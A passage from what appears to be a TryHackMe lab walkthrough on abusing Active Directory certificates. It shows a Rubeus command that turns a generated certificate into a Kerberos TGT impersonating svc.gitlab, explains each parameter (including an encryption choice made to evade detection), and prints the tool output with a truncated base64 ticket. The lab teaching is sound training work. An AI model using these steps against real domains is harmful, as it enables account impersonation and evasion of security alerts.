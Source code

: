 Now we can finally impersonate a user. To perform this, two steps are required:

* Use the certificate to request a Kerberos ticket granting ticket (TGT)
* Load the Kerberos TGT into your hacking platform of choice

For the first step, we will be using [Rubeus](https://github.com/GhostPack/Rubeus). An already compiled version is available in the `C:\THMTools\` directory. Open a command prompt window and navigate to this directory. We will use the following command to request the TGT:

```
Rubeus.exe asktgt /user:svc.gitlab /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:lunar.eruca.com /dc:<IP of domain controller>
```

Let’s break down the parameters:

* **/user** - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
* **/enctype** -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
* **/certificate** - Path to the certificate we have generated
* **/password** - The password for our certificate file
* **/outfile** - The file where our TGT will be output to
* **/domain** - The FQDN of the domain we are currently attacking
* **/dc** - The IP of the domain controller where we are requesting the TGT from. Usually it is best to select a DC that has a CA service running

Once we execute the command, we should receive our TGT:

TGT Request

```
C:\THMTools> .\Rubeus.exe asktgt /user:svc.gitlab /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:svc.gitlab.kirbi /domain:lunar.eruca.com /dc:10.10.69.219
          ______        _
         (_____ \      \| \|
          _____) )_   _\| \|__  _____ _   _  ___
         \|  __  /\| \| \| \|  _ \\| ___ \| \| \| \|/___)
         \| \|  \ \\| \|_\| \| \|_) ) ____\| \|_\| \|___ \|
         \|_\|   \|_\|____/\|____/\|_____)____/(___/
       
         v2.0.0
       
       [*] Action: Ask TGT
       
       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'lunar.eruca.com\svc.gitlab'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):
       
             doIGADCCBfygAwIBBaEDAgEWooIE+jCCBPZhggTyMIIE7qADAgEFoREbD0xVTkFSLkVSVUNBLkNPTaIk
             MCKgAwIBAqEbMBkbBmtyYnRndBsPbHVuYXIuZXJ1Y2EuY29to4IErDCCBKigAwIBEqEDAgECooIEmgSC
             BJaqEcIY2IcGQKFNgPbDVY0ZXsEdeJAmAL2ARoESt1XvdKC5Y94GECr+FoxztaW2DVmTpou8g116F6mZ
             nSHYrZXEJc5Z84qMGEzEpa38zLGEdSyqIFL9/avtTHqBeqpR4kzY2B/ekqhkUvdb5jqapIK4MkKMd4D/
             MHLr5jqTv6Ze2nwTMAcImRpxE5HSxFKO7efZcz2glEk2mQptLtUq+kdFEhDozHMAuF/wAvCXiQEO8NkD
             zeyabnPAtE3Vca6vfmzVTJnLUKMIuYOi+7DgDHgBVbuXqorphZNl4L6o5NmviXNMYazDybaxKRvzwrSr
             2Ud1MYmJcIsL3DMBa4bxR57Eb5FhOVD29xM+X+lswtWhUO9mUrVyEuHtfV7DUxA94OvX1QmCcas4LXQW
             ggOit/DCJdeyE8JjikZcR1yL4u7g+vwD+SLkusCZE08XDj6lopupt2Hl8j2QLR2ImOJjq54scOllW4lM
             Qek4yqKwP6p0oo4ICxusM8cPwPUxVcYdTCh+BczRTbpoKiFnI+0qOZDtgaJZ/neRdRktYhTsGL39VHB5
             i+kOk3CkcstLfdAP1ck4O+NywDMUK+PhGJM/7ykFe2zICIMaGYGnUDRrad3z8dpQWGPyTBgTvemwS3wW
             NuPbQFFaoyiDiJyXPh+VqivhTUX9st80ZJZWzpE7P1pTNPGq38/6NyLjiE9srbOt6hCLzUaOSMGH1Enf
             SYmNljeW2R0gsFWBaFt16AHfT9G9Et2nOCJn/D/OFePFyR4uJF44p82CmVlBhzOxnCaGtQM2v9lwBqQF
             CcVLjxGXqKrPUr1RUGthP861jhMoXD4jBJ/Q32CkgVdlJRMweqcIfNqP/4mEjbUN5qjNqejYdUb/b5xw
             S794AkaKHcLFvukd41VTm87VvDOp6mM5lID/PLtTCPUZ0zrEb01SNiCdB5IAfnV23vmqsOocis4uZklG
             CNdI1/lsICpS/jaK6NM/0oKehMg+h4VAFLx4HnTSY4ugbrkdxU948qxPEfok/P6umEuny7yTDQFoCUKk
             RuLXbtwwplYTGBDLfzwhcNX8kc/GGLbH9+B8zRXxhd3TGQ7ZT03r798AjobKx024ozt6g4gjS5k/yIT+
```